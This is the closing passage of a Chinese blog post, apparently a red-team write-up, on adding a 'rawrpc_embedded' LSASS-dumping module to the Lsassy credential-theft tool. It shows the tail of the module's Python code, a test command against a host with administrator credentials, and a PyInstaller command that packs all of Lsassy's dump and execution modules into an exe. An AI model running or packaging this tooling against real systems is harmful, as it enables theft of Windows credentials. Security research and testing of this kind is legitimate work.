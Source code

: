 ```
        cmd_command = """{} {}""".format(
            self.loader.get_remote_path(),self.dll.get_remote_path()
        )
        pwsh_command = """{} {}""".format(
            self.loader.get_remote_path(),self.dll.get_remote_path()
        )
        return {
            "cmd": cmd_command,
            "pwsh": pwsh_command
        }
```

将以上代码保存至`<python>\Lib\site-packages\lsassy\dumpmethod\rawrpc_embedded.py`

测试命令：

```
lsassy -u Administrator -p Password1 192.168.1.1 -m rawrpc_embedded
```

### 3.打包成exe文件

完整的打包命令：

```
pyinstaller -F console.py --hidden-import unicrypto.backends.pure.DES --hidden-import unicrypto.backends.pure.TDES --hidden-import unicrypto.backends.pure.AES --hidden-import unicrypto.backends.pure.RC4 --hidden-import lsassy.dumpmethod.comsvcs --hidden-import lsassy.dumpmethod.comsvcs_stealth --hidden-import lsassy.dumpmethod.dllinject --hidden-import lsassy.dumpmethod.dumpert --hidden-import lsassy.dumpmethod.dumpertdll --hidden-import lsassy.dumpmethod.edrsandblast --hidden-import lsassy.dumpmethod.mirrordump --hidden-import lsassy.dumpmethod.mirrordump_embedded --hidden-import lsassy.dumpmethod.nanodump --hidden-import lsassy.dumpmethod.ppldump --hidden-import lsassy.dumpmethod.ppldump_embedded --hidden-import lsassy.dumpmethod.procdump --hidden-import lsassy.dumpmethod.procdump_embedded --hidden-import lsassy.dumpmethod.rdrleakdiag --hidden-import lsassy.dumpmethod.wer --hidden-import lsassy.exec.mmc --hidden-import lsassy.exec.smb --hidden-import lsassy.exec.smb_stealth --hidden-import lsassy.exec.task --hidden-import lsassy.exec.wmi --hidden-import lsassy.output.grep_output --hidden-import lsassy.output.json_output --hidden-import lsassy.output.pretty_output --hidden-import lsassy.output.table_output --hidden-import lsassy.dumpmethod.rawrpc --hidden-import lsassy.dumpmethod.rawrpc_embedded
```

## 0x04 小结
---

[Lsassy](https://github.com/Hackndo/lsassy)将不同的功能模块化，结构设置合理，添加dump方法仅需要修改Dumper module对应的实现代码。我已经将新添加的模块推送至[Lsassy](https://github.com/Hackndo/lsassy)，在最新版的[Lsassy](https://github.com/Hackndo/lsassy)可以直接使用这个模块。




---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



